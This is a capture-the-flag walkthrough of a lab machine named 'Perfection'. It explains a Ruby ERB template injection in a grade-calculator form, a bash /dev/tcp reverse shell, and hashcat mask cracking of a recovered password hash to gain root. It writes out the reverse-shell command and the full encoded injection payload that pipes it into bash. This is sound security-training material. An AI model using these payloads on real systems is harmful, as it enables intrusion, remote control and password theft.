

# Perfection


## Contents

1. Network fundamentals
2. Ruby ERB vulnerability injection
3. Reverse Shell, Hashcat


## Tutorial

Note: For better understanding I recommend reading first "Headless" machine as I explain some fundamentals there.

Let's start pinging:


Receives packets. Now let's start scanning the domain:


3 open ports. One ssh, http and http-alt. Let's analyze the http because it is a good way to start analyzing the webserver site first. The probabilities of using a vulnerable communication protocol are very low and I don't know of a metasploit module to vulnerate the other two ports. We begin by using gobuster to analyze the possible directories in the domain:


The URLs were analyzed and couldn't find any useful information on those URLs. Let's enter manually into the site:


The webpage is an interactive calculator. Visiting "About Us" and "Calculate your weighted grade" we find that there is a input section to interact with the site.


Let's get more information about this site to infere what kind of attacks is this site vulnerable to:


Observe that the site contains `Content-Type: text/html;charset=utf-8` and `Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)`. So this developer must have used Ruby to develop the site. Let's analyze the content:



There are no clues that the frontend is running Ruby (no `<% %>/erb/ruby/rhtml` keywords). As far as the analysis can go, it seems a normal html site. Nonetheless, from the previous pictures we know that the server is using WEBrick 1.7.0, which is a Ruby-based web server. This must be specifying that the backend is running Ruby.

Let's look on Google a bit of information by typing "server-side template injection ruby" to see if there is a way to inject malicious code. Checking on Github you can find "Ruby" section in this [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby) (`Ruby - Basic injections` section)

The only way we have to introduce a payload into the webserver is through the interactive calculator. So let's play with it obbeying its requirements described at the bottom using burpsuite and analyzing the request. Observe that we can introduce a payload into the webserver in the following screenshot. Nonetheless, we must know that we cannot use the same payload technique we used in Headless because Perfection is based on Ruby. Moreover, in one of the pictures we can observe that has `XSS injection: Blocked`. So instead of doing an XSS injection to get admin privileges, we are going to try to get a reverse shell to the Ruby webserver. The burpsuite analysis is the following:


#### Thinking about the payload

Now comes the tricky part of this machine. What would be the correct payload (among the possible ones) for this server?

Reading the previous URL, we find they have a specific case for ERB basic injection: Check this [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=ERB%3A-,%3C%25%3D%207%20*%207%20%25%3E,-Slim%3A). What is an ERB in Ruby? ERB (Embedded Ruby) is a templating system built into Ruby that allows you to embed Ruby code directly into your text files, including HTML, XML, or even plain text documents.

So, we know that the site uses html content, but the backend uses Ruby. So it is highly likely that the ERB injection will work. We will embed an ERB command injection into the html site for the server to interpretate the command and get the reverse shell.

In the URL they show the case `<%= 7 * 7 %>`.
Nonetheless our goal is to inject a reverse shell into the Ruby webserver, not multiplying. So in Ruby terminology would be something of style:
`<%= system("echo + payload");=>`.
Also, when performing an ERB injection in a Ruby-based web application, URL encoding is necessary because the payload needs to be sent as part of an HTTP request. So both the payload and the command injection must be URL encoded.
Reading this [documentation](https://www.uv.es/jac/guia/hexawin.htm) (in Spanish) the command injection must be as follows:
`<%25%3dsystem("echo+URLencoded(payload);%25>`.

Now is the moment to insert the payload. Let's prepare it.

##### The Payload

The payload used is going to be the same as in the previous machine `Headless`. The command is the following:
```
bash -i >& /dev/tcp/{IP}/{port} 0>&1
```
`bash -i` starts an interactive bash shell
`>& /dev/tcp/{IP}/{port} 0>&1`: Redirects the input and output of the bash shell (target) to a TCP connection to {IP} on port {port} (to our netcat listerner). This effectively sets up a reverse shell, where the compromised server connects back to the attacker's machine, giving the attacker remote control over the server.

You must be aware that you cannot inject the payload directly. It is necessary to encode it into Base64. Why? Shell commands often contain special characters that could be misinterpreted by the server or web application. Also, characters like spaces or special symbols (<, >, &) can break the command or be deleted by security mechanisms from the server. So, encoding the command in base64 makes it less likely to be detected and blocked by such filters because the payload appears as a harmless string of alphanumeric characters. So, using the reasoning explained by encoding the reverse shell injection command into Base64 and later into URL encoding, the outcome is as follows:


##### The listener

Now, time to set up the listener:


##### Inject the reverse Shell

Time to inject the reverse shell. Using our previously encoded payload (first into base64 and later into URL encode) the final command injection is as follows:
```
category1=test1%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43Ni83MzczIDA%2BJjE%3D|+base64+-d+|+bash");%25>
```
Why `%0A` at the beginning of the payload? For Ruby to interpretate `test1` string and then independently the payload as a newline.
The part `|+base64+-d+|+bash`in the injection payload is used to decode a base64-encoded string and then execute it as a shell command (calling bash).
1. First ruby decodes the string in URL format
2. Then the first pipe `|` orders to decode the base64-encoded string
3. The result is then sent to a second pipe `|` that takes the decoded output and passes it as input to the `bash` command.
4. `bash` executes the input as a shell script

Open burp-suite again. Fill some data into the burp-browser (with the intercept on) and submit it. You will see the request stopped on burp-suite. Right-click and select "send to repeater". Edit the request there and add the payload encoded. Click on "Send". Open the terminal where your netcat listener is open:


Bingo. You got access to the webserver application. Now playing around like I did in the following picture you can get the user flag.


### Root flag

After playing around with all the folders possible in the remote shell, the only interesting file found is the one located at `/home/susan/Migration`. The file is a `.db`. If you open it using cat you won't be able to appreciate the content correctly because the file is in binary format. Binary files contain not only text but also binary data that represents various non-printable characters and metadata necessary for the database engine to interpret the file correctly. The `strings` command is designed to extract and display printable text strings from binary files. Some example of .db files are SQLlite.db files.


This file contains the password in hash format for several users. The password we need is the Susan one because we are logged into `susan@perfection:~/Migration$`. A good way to decipher the password is to use hashcat.

#### Hashcat

Hashcat is an open-source password recovery tool used for recovering lost passwords. It is designed to crack password hashes through various attack methods like brute-force, dictionary, combinator and rule-based attacks.

Grab this hash you found and in another terminal save it into a .txt file and run hashcat.


You will see that it takes too long and requests you for a mask for better performance. A `mask` refers to a string pattern used to generate password candidates during a brute-force attack. The mask specifies the structure of the passwords that hashcat will attempt to crack. Where can we obtain such mask? Let's do a deeper search on the webserver. Go to `cd ~` and run the following command: `find / -name "*mask*" -ls 2>dev/null`. You will get the following outcome:


There is an enormous amount of files that show the keyword "mask". Maybe this is a too generic word. Analyzing each of the files would be a nightmare. Also, the path and filename seem not to give any hints. Let's try with "*password*" and "*susan*". With "*password*" it will be the same, a huge number of files which do not show any meaningful information. When you run:

```
find / -name "*susan*" -ls 2>/dev/null
```

Where `find /` starts the find command at the root directory. `-name "*susan*"` searches with the pattern *susan*. `-type f` looks for files that has such *susan* keyword. `-ls` shows the path to (and more detailed information) of that file. `2>/dev/null` avoids showing error messages in the search (e.g., permission-denied errors). You will get three files. We saw two of them. Let's see this third one:


So the mask is {firstname}_ {firstname backwards}_ {randomly generated integer between 1 and 1,000,000,000}. All letters of the firstname should be in lowercase. Our target user is susan, so the mask would be `susan_nasus_?d?d?d?d?d?d?d?d?d?d`. What is `?d`? It represents a digit in hashcat command to decipher, and it is repeated ten times (because it is 1*10⁹), indicating a ten-digit sequence because the integer &isin; (1-1,000,000,000). Run the following command in another terminal:


While hashcat is trying to get the password, type `sudo -l` in your netcat listener. You will see that you can't request for sudo access. This is because the shell is not stabilized. Do the following (explained in Headless machine)


Now you can introduce the password. Go back to hashcat. Nonetheless, hashcat returned no results with our query:


After 6 hours using hashcat, no results were found. This can be because of two reasons:

1. We don't have enough information yet
2. The command introduced is not correct and the susan email meant 9 numbers instead of 10 (because it is up to 1*10⁹ digits and the sentence was not correctly specified mathematically).

Let's run the same command with 9 numbers in the command. You will obtain the password for susan:


After 15 minutes (what a reduction) the hash is cracked:


Introducing the password into sudo, it is easily obtained the root flag:


